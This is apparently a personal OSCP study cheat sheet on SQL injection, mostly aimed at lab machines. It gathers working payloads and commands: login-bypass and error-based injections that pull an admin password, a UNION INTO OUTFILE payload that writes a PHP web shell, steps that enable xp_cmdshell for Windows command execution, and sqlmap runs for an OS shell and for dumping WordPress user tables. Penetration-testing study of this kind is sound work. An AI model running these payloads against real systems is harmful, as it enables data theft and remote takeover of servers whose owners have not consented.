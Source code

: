 ## Basic SQL Reminders

### For OSCp

 - mysql
 - sqlserver


### mysql
MySQL is one of the most commonly deployed database variants, along with MariaDB, an open-source fork of MySQL.

connect
> mysql -u root -p'root' -h 192.168.50.16 -P 3306

after connecting, seeing version
> select version();

show current db user
> select system_user();

shown list of databases
> show databases;

pull single users auth string
> SELECT user, authentication_string FROM mysql.user WHERE user = 'offsec';

### MSSQL
MSSQL is a database management system that natively integrates into the Windows ecosystem.

using impacket to connect 
> impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth

after connecting show version
> SELECT @@version;

show list of databses
> SELECT name FROM sys.databases;

review a database called offsec by querying the tables table in the corresponding information_schema.
> SELECT * FROM offsec.information_schema.tables;


 #### id'ing sqli
 <?php
$uname = $_POST['uname'];
$passwd = $_POST['password'];

$sql_query = "SELECT * FROM users WHERE user_name = '$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
?>

offsec' OR 1=1 -- //
' OR 1=1 in (select @@version) -- //

### Determining the type of database

|Type of db| method|
|----------|------|
|MySQL|SELECT @@version|
|SQLite|SELECT sqlite_version()|
|Microsoft|SELECT @@version|
|PostgreSQL|SELECT version()|
|Oracle|SELECT banner FROM v$version, SELECT version FROM v$instance|

### Commenting in SQL

|syntax|mysql|ms sql|oracle|notes|
|------|-----|------|------|-----|
| --   | yes | yes  | yes  | The double dash is used to comment the rest of the line. My MySQL however this operator myst be followed by at least one white space or control character|
| #    | yes | no   | no   | The nuber sign allos commenting the rest of the line in MySQL. Contrary to the double dash, it is not necessary to add whitespace after|
| /* */| yes | yes  | yes  |     |


### Generic

Using the mysql command, we'll connect to the remote SQL instance by specifying root as username and password, along with the default MySQL server port 3306.
> mysql -u root -p'root' -h 192.168.50.16 -P 3306

We can run impacket-mssqlclient to connect to the remote Windows machine running MSSQL by providing a username, a password, and the remote IP, together with the -windows-auth keyword. 
> impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth

Basic escape chars to try
```
 [Nothing]
'
"
`
')
")
`)
'))
"))
`))
```

Comments for diff dbs
```
MySQL
#comment
-- comment     [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */

PostgreSQL
--comment
/*comment*/

MSQL
--comment
/*comment*/

Oracle
--comment

SQLite
--comment
/*comment*/

HQL
HQL does not support comments
````


https://medium.com/@harrmahar/escalating-time-based-sql-injection-to-rce-using-xp-cmdshell-1b724b8e3c90

## error-based payload
```
' or 1=1 in (select @@version) -- //
```

## manual sqli via error-based payloads

```
uid=' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //&password=test
```

## find num of columns
```
' ORDER BY 10-- //
```

## union select to create a webshell
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

## connecting via impacket-mssqlclient
note: my install is wonky and need to run it as mssqlclient.py Administrator:Lab123@192.168.206.18 -windows-auth
```
kali@kali:~$ impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
...
SQL> EXECUTE sp_configure 'show advanced options', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
```
we can now excute windows shell commands



## using sqlmap with -r
```
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
```
where post.txt contains the post request from burp

```
sqlmap -r wp.req -p 'question_id' -D wordpress -T wp_users --dump --technique=T --flush-session
```

GET /wp-admin/admin-ajax.php?action=get_question&question_id=1* HTTP/1.1
Host: alvida-eatery.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1



# time delay

```
'; IF (1=1) WAITFOR DELAY '0:0:10';-- 
```